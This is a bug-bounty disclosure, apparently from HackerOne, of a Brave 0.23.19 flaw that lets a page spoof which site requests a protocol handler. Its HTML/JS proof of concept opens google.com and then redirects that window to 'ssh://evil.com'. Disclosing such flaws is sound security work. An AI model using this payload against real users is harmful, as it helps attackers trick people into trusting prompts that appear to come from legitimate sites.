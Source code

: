 # Spoof protocol handler requester

> Severity:      Medium
> Link:          https://hackerone.com/reports/374969
> Date:          2018-07-01 13:22:11 +0000

## Summary

Navigation to protocol handler URL from the page opened using `window.open` is considered as a request from the opened page.

Example:

1. The page opens `google.com`
2. The page changes opened window's location to `ssh://evil.com`
3. Request to open `ssh://evil.com` URL displayed at `google.com`

**Combining this vulnerability with #369185 makes the attack scenario in #369218 more available.**

## Products affected

Brave: 0.23.19

## Steps To Reproduce

PoC:

``` html
<script>
    window.onclick = () => {
        w = window.open("https://google.com")
        setTimeout(() => {
            t = w.location.replace('ssh://evil.com');
        }, 1000)
    }
</script>
```

## Supporting Material/References:

Screencast + PoC attached.

## Impact

An attacker could trick a user to open protocol handler from a trusted site.
